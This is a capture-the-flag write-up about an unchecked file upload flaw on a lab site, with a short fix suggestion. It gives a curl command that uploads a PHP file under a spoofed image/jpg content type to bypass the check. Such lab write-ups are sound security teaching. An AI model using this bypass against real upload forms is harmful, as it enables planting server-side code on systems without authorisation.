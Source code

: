 # Unchecked File Upload

## Vulnerability

In the middle of the page, there is a link `ADD IMAGE` redirecting to: [`index.php?page=upload`](http://darkly/index.php?page=upload).

Uploading a PNG file, give an error:
```
Your image was not uploaded.
```
Uploading a JPG file, give a result: 
```
/tmp/file.jpg succesfully uploaded.
```

The file content itself isn't checked. Only the file name.

Uploading a file with a name not containing `jpg` BUT still having the `jpg` content-type give the flag.
```bash
$ curl \
    -F 'Upload=Upload' \
    -F "uploaded=@exploit.php;type=image/jpg" \
    -F 'MAX_FILE_SIZE=100000' \
    'http://darkly/?page=upload'
...
<h2>The flag is : ...</h2>
...
```

## Possible Fix

- Check the file magic.
